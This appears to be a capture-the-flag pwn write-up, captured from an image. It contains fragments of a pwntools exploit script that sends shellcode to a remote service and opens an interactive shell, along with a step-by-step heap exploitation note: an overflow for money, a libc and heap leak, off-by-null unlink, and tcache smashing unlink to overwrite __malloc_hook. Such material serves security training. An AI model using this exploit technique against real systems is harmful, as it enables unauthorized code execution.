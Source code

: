 ```python
	payload += "\x00"*(0xf40-0xa98)
	# remain 0x179 byte
	
	payload += p64(0x00000001200134c0)

	payload += "\x00"*0x20+sc+"\x00"*(0x179-0x28-len(sc))
	
	p.send(payload)
	try:
		p.recvuntil("404 Not Found :(",timeout=1)
		p.sendline("echo dididididi")
		_ = p.recvuntil("didid",timeout=1)
		if _ != '':
			p.interactive()
	except:
		p.close()
		return
	p.close()
	
	
if __name__ == "__main__":
	for i in range(200):
		try:
			main(args['REMOTE'])
		except:
			continue
	# main(args['REMOTE'])
```

## note

Step 1: **get enough money** 

The initial value of money is 0x996, size * 857 > money can not be applied, there is an operation of money += size in the delete function, so 

The first thing is to modify the value of the money by multiply overflow.

Step 2: **leak libc and heap** 

The calloc function allocate an MMAP chunk that does not perform a memset clearing operation, and there is a heap overflow in the super_edit(choice 7) function, modify the MMAP flag bit to 1 via the heap overflow to leak the libc and heap address.

Step 3: **tcache smashing unlink** 

Use the off by null in edit function to unlink the chunk, and then use tcache smashing unlink to chain the `__malloc_hook` into tcache , call super_buy(choice 6) function to overwrite `__malloc_hook`, trigger calloc to  getshell 

exp：

```python
#coding:utf-8
from pwn import *
import hashlib
import sys,string

local = 1

# if len(sys.argv) == 2 and (sys.argv[1] == 'DEBUG' or sys.argv[1] == 'debug'):
    # context.log_level = 'debug'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# libc = ELF('./libc_debug.so',checksec=False)
one = [0xe237f,0xe2383,0xe2386,0x106ef8]

```